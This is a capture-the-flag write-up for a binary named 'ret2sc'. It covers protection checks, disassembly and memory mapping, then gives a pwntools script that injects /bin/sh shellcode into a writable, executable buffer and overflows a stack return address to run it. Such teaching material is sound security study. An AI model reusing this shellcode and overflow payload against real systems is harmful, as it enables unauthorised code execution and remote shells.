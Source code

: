 1. `file ret2sc` to take a look.
```bash
$ file ret2sc
ret2sc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, 
BuildID[sha1]=b83f13f0a84fdae7a5bc54d828d0e4ea15575d6d, not stripped
```

2. gdb checksec to check the protection of this program.
```bash
$ gdb-peda ret2sc
Reading symbols from ret2sc...
(No debugging symbols found in ret2sc)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

3. `r2 ret2sc`, there's nothing special.
```bash
$ r2 ret2sc
[0x00400540]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400540]> afl
0x00400540    1 41           entry0
0x00400500    1 6            sym.imp.__libc_start_main
0x00400570    4 50   -> 41   sym.deregister_tm_clones
0x004005b0    4 58   -> 55   sym.register_tm_clones
0x004005f0    3 28           sym.__do_global_dtors_aux
0x00400610    4 38   -> 35   entry.init0
0x00400720    1 2            sym.__libc_csu_fini
0x00400724    1 9            sym._fini
0x004006b0    4 101          sym.__libc_csu_init
0x00400636    1 114          main
0x00400520    1 6            sym.imp.setvbuf
0x004004e0    1 6            sym.imp.printf
0x004004f0    1 6            sym.imp.read
0x00400510    1 6            sym.imp.gets
0x004004b0    3 26           sym._init
0x00400530    1 6            sym..plt.got
[0x00400540]>
```

4. `s main`, `VV`. We saw there are two input, one is "name", another is "try your best:". the first will be put at **0x601080**, second will be put at **var_20h(rbp-0x20)**.
![Image](https://i.imgur.com/kkBkEOG.png)

5. by the result above, we need to find the place that we can inject our shellcode, use gdb-peda.
`gde-peda ret2sc`, `b main`, `r`

```bash
$ gdb-peda ret2sc
Reading symbols from ret2sc...
(No debugging symbols found in ret2sc)
gdb-peda$ b main
Breakpoint 1 at 0x40063a
gdb-peda$ r
```

then `vmmap`, we found that address between 0x601000-0x602000 have permission of rwx, and our input "name" (0x601080) is in this range. so we can inject our shellcode here.

![Image](https://i.imgur.com/WQSd5Zm.png)


6. write the exploit script, shellcode can be found on the [exploit-db](https://www.exploit-db.com/shellcodes) website.

```python
from pwn import *

context.arch = "amd64"

ip = "120.114.62.211"
port = 2122

# r = remote(ip,port)
r = process("./ret2sc")

shellcode =\
"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

r.sendafter(":", shellcode)
# r.recvuntil(':')
# r.sendline(shellcode)

shellcode_address = 0x601080
r.recvuntil(':')
r.sendline(b"A"*0x28 + p64(shellcode_address))

r.interactive()
```

7. run the code and then we can get the shell, find the flag and print it.
